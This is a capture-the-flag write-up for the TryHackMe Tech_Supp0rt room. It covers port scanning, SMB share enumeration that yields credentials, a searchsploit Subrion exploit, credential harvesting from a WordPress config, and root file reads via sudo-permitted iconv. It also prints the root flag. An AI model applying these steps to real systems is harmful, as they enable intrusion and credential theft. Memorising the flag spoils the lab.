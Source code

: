 ![thumbnail](https://github.com/Debang5hu/ctf-writeups/assets/114200360/ad8c0a90-7994-4743-8af1-4612f8f21906)  

Machine: https://tryhackme.com/room/techsupp0rt1  

OS: Ubuntu (Linux)  

WEB TECHNOLOGY:  Wordpress(5.7.2),Subrion,Mysql,php

As usual start by exporting the IP to local variable  

```
export IP='10.10.228.84'
```  

------------------------------------------------------------------------------------------------  
Perform a Nmap scan:  

# Scanning and Reconnaisance  

NMAP RESULT:  

```
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 10:8a:f5:72:d7:f9:7e:14:a5:c5:4f:9e:97:8b:3d:58 (RSA)
|   256 7f:10:f5:57:41:3c:71:db:b5:5b:db:75:c9:76:30:5c (ECDSA)
|_  256 6b:4c:23:50:6f:36:00:7c:a6:7c:11:73:c1:a8:60:0c (ED25519)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: TECHSUPPORT; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -1h49m59s, deviation: 3h10m30s, median: 0s
| smb2-time: 
|   date: 2023-12-26T06:33:53
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: techsupport
|   NetBIOS computer name: TECHSUPPORT\x00
|   Domain name: \x00
|   FQDN: techsupport
|_  System time: 2023-12-26T12:03:54+05:30
```

------------------------------------------------------------------------------------------  

PORTS/Services running:  

22 --> ssh  
80 --> http  
139,445 --> smb  

---------------------------------------------------------------------------------------------  
# ENUMERATION:  

HTTP (80):  
 
/test  
/wordpress --> /wp-admin  

Nothing Interesting Directory were found  

------------------------------------------------------------------------------------------------

SMB (139,445):  

![Screenshot_2023-12-26_15_27_28](https://github.com/Debang5hu/ctf-writeups/assets/114200360/89026d90-6262-4165-8d8b-8d5c5026f1df)  

```
smbmap -H $IP
```  

"websvr" has Read permission  

enumerating it:  

```
smbclient \\\\$IP\\websvr
```  

Found a text file named 'enter.txt' get the file in your device  

```
get enter.txt
```  

the file contains the username and password(encrypted) and gives the hint where to login with the provided credentials  

head to the site:  $IP/subrion/panel  

-----------------------------------------------------------------------------------------------------------------------------------
# Getting a shell  

Now, I found a python exploit to get the shell (found it using searchsploit)  

```
searchsploit subrion
```  

Get the exploit to the current directory by  

```
searchsploit -m php/webapps/49876.py
```  

Now run the exploit to get the shell and find the username and password from /home and /var/www/html/wordpress/php-config.php  file  

After getting the Credentials SSH into the machine  

```
ssh scamsite@$IP
```  

-------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Priviledge Escallation  

check the sudo permissions  
  
```
sudo -l
```  

Now use 'gtfobins' for escalling the priviledge  

Read the Root flag:  

```
FILE='/root/root.txt'
```  

```
/usr/bin/iconv -f 8859_1 -t 8859_1 "$FILE"
```  


Root Flag: 851b8233a8c09400ec30651bd1529bf1ed02790b  


